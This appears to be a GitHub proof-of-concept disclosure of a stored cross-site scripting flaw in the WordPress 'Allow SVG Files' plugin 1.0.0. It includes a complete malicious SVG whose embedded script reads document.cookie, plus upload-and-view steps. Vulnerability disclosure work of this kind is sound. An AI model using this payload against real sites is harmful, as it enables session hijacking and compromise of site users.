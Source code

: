 # Cross Site Scripting Through SVG Files in "Allow SVG Files" Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in Wordpress "Allow SVG Files" version 1.0.0

# Description

The "Allow SVG Files" v1.0.0, plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![1](https://user-images.githubusercontent.com/70114276/166060325-e8294eac-d0b8-452d-b682-f02ded4f7e5b.png)

## Attack Scenario

First we create our SVG file with this content:

![3](https://user-images.githubusercontent.com/70114276/165981536-9ee8b054-0275-4268-83c1-160039432cb2.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![image](https://user-images.githubusercontent.com/70114276/166068854-1b37bcd9-cd82-42c1-9f40-7d9001817ef5.png)


To validate the PoC, simply access the directory where the file was sent.

![XSS](https://user-images.githubusercontent.com/70114276/166069072-81c9d17f-7f52-428d-9032-98e0f147008a.png)

